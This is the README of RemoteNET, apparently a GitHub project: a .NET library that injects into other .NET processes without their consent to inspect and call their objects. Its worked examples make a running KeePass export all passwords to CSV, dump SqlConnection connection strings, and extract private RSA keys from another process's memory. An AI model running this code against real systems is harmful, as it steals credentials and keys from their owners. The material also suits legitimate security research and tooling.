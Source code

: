 ![icon](https://raw.githubusercontent.com/theXappy/RemoteNET/main/icon.png)
# RemoteNET
This library lets you examine, create and interact with remote objects in other .NET (framework) processes.  
It's like [System.Runtime.Remoting](https://docs.microsoft.com/en-us/dotnet/api/system.runtime.remoting?view=net-5.0) except the other app doesn't need to be compiled (or consent) to support it.

Basically this library lets you mess with objects of any other .NET (framework) app without asking for permissions :)

## Compilation
1. Clone
2. Open `RemoteNET.sln` file in VisualStudio 2019
3. Build Solution (`Ctrl+Shift+B`)

If you get errors of missing exes/dlls make sure the compilation order is set such that  
the C++ projects compile first (BOTH x32 and x64 need to be compiled), then **ScubaDiver** and then **RemoteNET**.

## Minimal Working Example
To get the essence of how easy and usefull this library can be, see below a re-implementation of [denandz/KeeFarce](https://github.com/denandz/KeeFarce).  
This example interacts with an open KeePass process and makes it export all credentials to a CSV file.  
```C#
// Gain foothold within the target process
Process keePassProc =  Process.GetProcessesByName("KeePass").Single();
RemoteApp remoteApp = RemoteApp.Connect(keePassProc);
RemoteActivator rActivator = remoteApp.Activator;

// Get a remote DocumentManagerEx object
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("KeePass.UI.DocumentManagerEx");
RemoteObject remoteDocumentManagerEx = remoteApp.GetRemoteObject(candidates.Single());
dynamic dynamicDocumentManagerEx = remoteDocumentManagerEx.Dynamify();

// Get sensitive properties to dump
dynamic activeDb = dynamicDocumentManagerEx.ActiveDatabase;
dynamic rootGroup = activeDb.RootGroup;

// Create remote PwExportInfo object (Call Ctor)
RemoteObject pwExportInfo = rActivator.CreateInstance("KeePass.DataExchange.PwExportInfo", rootGroup, activeDb, true);

// Create remote KeePassCsv1x (Call Ctor)
RemoteObject keePassCsv1x = rActivator.CreateInstance("KeePass.DataExchange.Formats.KeePassCsv1x");
dynamic dynamicCsvFormatter = keePassCsv1x.Dynamify();

// Creating a remote FileStream object
string tempOutputFile = Path.ChangeExtension(Path.GetTempFileName(), "csv");
RemoteObject exportFileStream = rActivator.CreateInstance(typeof(FileStream), tempOutputFile, FileMode.Create);

// Calling Export method of exporter
dynamicCsvFormatter.Export(pwExportInfo, exportFileStream, null);

// Showing results in default CSV editor.
Console.WriteLine($"Output written to: {tempOutputFile}");
Process.Start(tempOutputFile);
```

## How To Use
This section documents most parts of the library's API which you'll likely need.

### ★ Setup
To start playing with a remote process you need to create a `RemoteApp` object like so:
```C#
Process target =  Process.GetProcessesByName("OtherDotNetAppName").Single();
RemoteApp remoteApp = RemoteApp.Connect(target);
```

### ★ Getting Remote Objects
RemoteNET allows you to interact with existing objects and create new ones.  
**To find existing objects** you'll need to search the remote heap.  
Use `RemoteApp.QueryInstances` to find possible candidate for the desired object and `RemoteApp.GetRemoteObject` to get a handle of a candidate.  
```C#
IEnumerable<CandidateObject> candidates = remoteApp.QueryInstances("MyApp.PasswordContainer");
RemoteObject passwordContainer = remoteApp.GetRemoteObject(candidates.Single());
```
**To create new objects** the `Activator`-lookalike can be used:
```C#
// Creating a remote StringBuilder with default constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder));

// Creating a remote StringBuilder with the (string,int) constructor
RemoteObject remoteSb1 = remoteApp.Activator.CreateInstance(typeof(StringBuilder), "Hello", 100);
```
Note how we used constructor arguments in the second `CreateInstance` call. Those could also be other `RemoteObject`s:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
// Constructing using the "StringWriter(StringBuilder sb)" ctor
RemoteObject remoteStringWriter = remoteApp.Activator.CreateInstance(typeof(StringWriter), remoteStringBuilder);
```

### ★ Reading Remote Fields/Properties
To allow a smooth coding expereince RemoteNET is utilizing a special dynamic object which any `RemoteObject` can turn into.  
This object can be used to access field/properties just if they were field/properties of a local object:
```C#
RemoteObject remoteStringBuilder = remoteApp.Activator.CreateInstance(typeof(StringBuilder));
dynamic dynamicStringBuilder = remoteStringBuilder.Dynamify();
Console.WriteLine("Remote StringBuilder's Capacity: " + dynamicStringBuilder.Capacity)
```
A more interesting example would be retrieving the `ConnectionString`s of every `SqlConnection` instance:
```C#
var sqlConCandidates = remoteApp.QueryInstances(typeof(SqlConnection));
foreach (CandidateObject candidate in sqlConCandidates)
{
    RemoteObject remoteSqlConnection = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicSqlConnection = remoteSqlConnection.Dynamify();
    Console.WriteLine("ConnectionString: " + dynamicSqlConnection.ConnectionString);
}
```

### ★ Invoking Remote Methods
Just like accessing fields, invoking methods can be done on the dynamic objects.  
This fun example dumps all private RSA keys (which are stored in `RSACryptoServiceProvider`s) that are found in the target's memory:
```C#
// Finding every RSACryptoServiceProvider instance
var rsaProviderCandidates = remoteApp.QueryInstances(typeof(RSACryptoServiceProvider));
foreach (CandidateObject candidate in rsaProviderCandidates)
{
    RemoteObject rsaProv = remoteApp.GetRemoteObject(candidate);
    dynamic dynamicRsaProv = rsaProv.Dynamify();
    // Calling remote `ExportParameters`.
    // First parameter (true) indicates we want the private key.
    dynamic parameters = dynamicRsaProv.ExportParameters(true);
    Console.WriteLine("Modulus: " + parameters.Modulus);
    Console.WriteLine("Exponent: " + parameters.Exponent);
    Console.WriteLine("D: " + parameters.D);
    Console.WriteLine("P: " + parameters.P);
    Console.WriteLine("Q: " + parameters.Q);
    Console.WriteLine("DP: " + parameters.DP);
    Console.WriteLine("DQ: " + parameters.DQ);
    Console.WriteLine("InverseQ: " + parameters.InverseQ);
}
```

## TODOs
1. Generics aren't completely supported
2. Static members
3. Support injecting to self with local diver
4. Document "Reflection API" (RemoteType, RemoteMethodInfo, ... )
5. .NET core/.NET 5
6. Support other .NET framework CLR versions. Currently supports v4.0.30319


## Thanks
**denandz** for his interesting project **KeeFarce** which was a major inspiration for this project.  
Also multiple parts of this project are directly taken from KeeFarce (DLL Injection, Bootstrap, IntPtr-to-Object converter).

**icons8** for the "Puppet" icon

**Raymond Chen** for stating this project shouldn't be done in [this blog post from 2010](https://devblogs.microsoft.com/oldnewthing/20100812-00/?p=13163).  
I really like this qoute from the post:
>If you could obtain all instances of a type, the fundamental logic behind computer programming breaks down. It effectively becomes impossible to reason about code because anything could happen to your objects at any time.
